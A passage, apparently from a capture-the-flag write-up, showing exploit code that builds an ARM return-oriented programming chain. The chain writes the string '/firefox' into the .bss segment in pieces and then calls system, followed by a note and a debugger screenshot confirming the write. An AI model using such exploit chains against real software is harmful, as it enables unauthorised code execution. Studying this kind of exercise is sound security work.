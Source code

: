 
p += p32(pop_r0_r1_r2_r3)
p += p32(bss)
p += "/fir" 
p += p32(0xdeadbeef)
p += p32(bss+4)
p += p32(str_r1_r3_pop_r4_r5_r6)
p += p32(0xdeadbeef)
p += p32(0xdeadbeef)
p += p32(0xdeadbeef)

p += p32(pop_r0_r1_r2_r3)
p += p32(bss)
p += "efox" 
p += p32(0xdeadbeef)
p += p32(bss+4+4)
p += p32(str_r1_r3_pop_r4_r5_r6)
p += p32(0xdeadbeef)
p += p32(0xdeadbeef)
p += p32(0xdeadbeef)


p += p32(system-1)

print p
{% endhighlight %}

at this point, we successfully write to the`.bss` segment

<img src="/images/redmask2020/gdb-1.png"/>
